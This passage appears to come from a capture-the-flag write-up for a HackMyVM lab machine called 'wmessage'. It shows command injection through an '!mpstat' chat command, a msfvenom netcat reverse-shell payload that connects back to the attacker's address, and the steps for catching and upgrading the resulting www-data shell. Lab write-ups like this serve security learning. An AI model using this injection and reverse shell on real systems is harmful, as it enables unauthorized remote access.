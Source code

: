 Using the `!mpstat`:

![[Pasted image 20240810212323.png]]

We get the following output:

![[Pasted image 20240810212358.png]]

Issuing the command: `!mpstat;whoami`: 

![[Pasted image 20240810212428.png]]

Refreshing the page we can see our current user::

![[Pasted image 20240810212453.png]]
### Reverse Shell

Using msfvenom, I created a netcat payload:

```bash
garffff@garffff:~/hackmyvm/wmessage$ sudo msfvenom -p cmd/unix/reverse_netcat lhost=192.168.0.51 lport=443
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 97 bytes
mkfifo /tmp/htbuxv; nc 192.168.0.51 443 0</tmp/htbuxv | /bin/sh >/tmp/htbuxv 2>&1; rm /tmp/htbuxv
```

And used it with the `!mpstat` command:

![[Pasted image 20240810212613.png]]

This gave me a reverse shell connection:

```bash
garffff@garffff:~/hackmyvm/wmessage$ sudo nc -lvp 443
Listening on 0.0.0.0 443
Connection received on 192.168.0.65 37298
whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Upgrading the shell:

```bash
whereis python3
python3: /usr/bin/python3.9-config /usr/bin/python3 /usr/bin/python3.9 /usr/lib/python3 /usr/lib/python3.9 /etc/python3 /etc/python3.9 /usr/local/lib/python3.9 /usr/include/python3.9 /usr/share/python3 /usr/share/man/man1/python3.1.gz
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@MSG:/$ ^Z
[1]+  Stopped                 sudo nc -lvp 443
garffff@garffff:~/hackmyvm/wmessage$ stty raw -echo
sudo nc -lvp 443hackmyvm/wmessage$ 


www-data@MSG:/$ whoami && id
whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@MSG:/$ 
```
